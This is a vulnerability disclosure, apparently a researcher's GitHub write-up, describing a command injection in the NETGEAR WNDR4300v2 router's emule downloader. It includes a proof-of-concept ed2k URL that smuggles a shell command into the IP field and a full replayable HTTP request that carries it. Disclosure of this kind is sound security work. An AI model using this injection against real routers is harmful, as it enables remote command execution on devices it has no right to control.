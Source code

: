 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .

Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:


Vulnerability location:
In NETGEAR Downloader (BETA), when using emule download, the ip and port parameters are not filtered, resulting in remote command injection.

First you have to make sure that USB is plugged into the router.

Then you need to turn on wireshark to monitor WLAN traffic.

Finally, you can verify the vulnerability by simply capturing, modifying, and replaying the packet through BurpSuite.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843935009.png)


The location of the vulnerability in the code:

Because IP and port parameters have a command injection vulnerability.

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563779263843.png)


Poc:

ed2k://|server|192.168.195.132\';ping 192.168.1.8;echo'|8000


Grab this package in BurpSuite and make the following changes:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563843834060.png)

Can be verified by wireshark packet capture:

![](https://github.com/E4ck/Vu1nerability/blob/master/Netgear/picture/1563778026290.png)


HTTP Request:

POST /apply.cgi?/GREEN_emule_basic.htm%20timestamp=778486986003 HTTP/1.1
Host: 192.168.1.1
Content-Length: 358
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_emule_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI1OTczIiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.37588a09eba998aae243f26431b404b0c8922f019cba11ea126ab8cdecbd470c
Connection: close

submit_flag=add_download_item&download_type=emule&save_usb_path=&green_download_open_flag=&enable_green_download=on&download_type_1=emule&download_url=ed2k%3A%2F%2F%7Cserver%7C192.168.195.132%5C%27%3Bping+192.168.1.8%3Becho%27%7C8000&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2

